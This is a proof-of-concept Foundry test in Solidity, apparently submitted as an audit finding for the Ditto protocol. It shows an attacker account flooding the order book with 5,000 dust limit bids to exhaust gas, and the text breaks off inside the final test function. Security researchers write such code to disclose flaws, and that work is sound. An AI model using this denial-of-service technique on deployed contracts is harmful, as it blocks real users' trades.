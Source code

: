- using the same [repo](https://github.com/Cyfrin/2023-09-ditto) setup for testing,this is the POC .
```solidity 
pragma solidity 0.8.21;

import {Errors} from "contracts/libraries/Errors.sol";
import {Events} from "contracts/libraries/Events.sol";
import {STypes, MTypes, O} from "contracts/libraries/DataTypes.sol";
import {Constants} from "contracts/libraries/Constants.sol";
import "forge-std/console.sol";
import {OBFixture} from "test/utils/OBFixture.sol";
// import {console} from "contracts/libraries/console.sol";

contract POC is OBFixture {
    address[3] private users = [address(435433), address(423432523), address(522366)];
    address attacker = address(424234234232342);
    function setUp() public override {
        super.setUp();
        vm.label(attacker,"attacker");
        // first create some pagged assets by matching shorts with bids 
        fundLimitBidOpt(DEFAULT_PRICE*3, DEFAULT_AMOUNT * 100, users[0]); 
        fundLimitBidOpt(DEFAULT_PRICE * 2, DEFAULT_AMOUNT * 50, users[0]); 
        fundLimitShortOpt(uint80(DEFAULT_PRICE), DEFAULT_AMOUNT*150, users[0]);
        // give the attacker some assets : 
        depositEth(attacker,DEFAULT_AMOUNT * 100);
        depositUsd(attacker, DEFAULT_AMOUNT * 1000);
    }
    function attacker_setup() public { 
        // check his balance before the bunsh of bids he will create : 
        uint  balanceZethBefore = diamond.getZethBalance(vault,attacker);
        uint balanceAssetBefore = diamond.getAssetBalance(asset,attacker);
        vm.startPrank(attacker);
        uint16 id;
        uint80 latestPrice;
        for (uint i;i<5000;i++){ 
            if(i == 0){
                latestPrice = DEFAULT_PRICE *50;
            }
            // fundLimitBidOpt(latestPrice , DEFAULT_AMOUNT ,attacker);
            createLimitBid(latestPrice, DEFAULT_AMOUNT);
            // get highest bid : 
            (, id) = diamond.getBidKey(asset,1);
             latestPrice = diamond.getBidOrder(asset,id).price;
            //  console.log(latestPrice);
            // create ask with same price , and amount less 1 wei: 
            createLimitAsk( latestPrice, DEFAULT_AMOUNT - 80);

            latestPrice += 1;//2wei;
        }
        vm.stopPrank();
        STypes.Order[] memory bids = diamond.getBids(asset);
        console.log( "hack cost zeth",  balanceZethBefore - diamond.getZethBalance(vault,attacker));
        console.log( "hack cost asset", balanceAssetBefore - diamond.getAssetBalance(asset,attacker));
        console.log("bids that attacker create :",bids.length);
       console.log("amount in each bid ",bids[4].ercAmount);

        
    }

    function test_reachGasLimit() public {
       attacker_setup();
         uint before = gasleft();
```